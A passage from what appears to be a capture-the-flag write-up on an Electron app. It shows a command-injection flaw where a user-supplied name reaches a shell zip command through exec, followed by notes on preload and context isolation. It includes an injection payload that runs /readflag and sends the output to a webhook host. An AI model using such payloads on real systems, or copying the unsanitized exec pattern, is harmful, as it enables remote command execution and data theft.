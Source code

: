 ```ts
               exec(command);
               break;
           case 'linux':
               command=`zip ${name}.zip ${this.path}`;
               exec(command);
               break;
           default:
               break;
       }
   }
   static async init(path: string){
       try{
           const data = JSON.parse(await fs.readFile(path, 'utf-8'));
           return new PlanCached(path, data);
       }catch{
           return new PlanCached(path, {plans: []});
       }
   }
}
```

Look into backupCachedPlan there was command execution base on name argument
```bash
zip ${name}.zip ${this.path}
```

If we can set the name into our injection payload e.g.: 
\`curl webhook?$(/readflag)\`  that command will be executed as
```bash
zip `curl webhook?$(/readflag)`.zip ${this.path}
```

#### How electron app work
A preload script runs in the renderer process, before any web page scripts load. It acts as a bridge between the Node.js APIs (in the main process) and the web page (renderer), while maintaining security boundaries.
```ts
   const mainWindow = new BrowserWindow({
       width: 800,
       height: 600,
       webPreferences: {
           nodeIntegration: false,
           contextIsolation: true,
           preload: path.join(app.getAppPath(),
           process.env.NODE_ENV === "development" ? "." : "..",
           'dist-electron/preload.cjs'),
       },
   });
```
- nodeIntegration: false -> disables direct Node.js access in renderer.
- contextIsolation: true -> keeps web page JavaScript separate from preload script.
- preload -> loads a trusted script with limited Node access.

dist-electron/preload.cjs
```js
"use strict";
Object.defineProperty(exports, "__esModule", { value: true });
const electron = require('electron');
const api = {
   getCachedPlans() {
       return electron.ipcRenderer.invoke('get-cached-plans');
   },
   setCachedPlan(plan) {
       return electron.ipcRenderer.invoke('set-cached-plans', plan);
   },
   onPlanUpdated(callback) {
```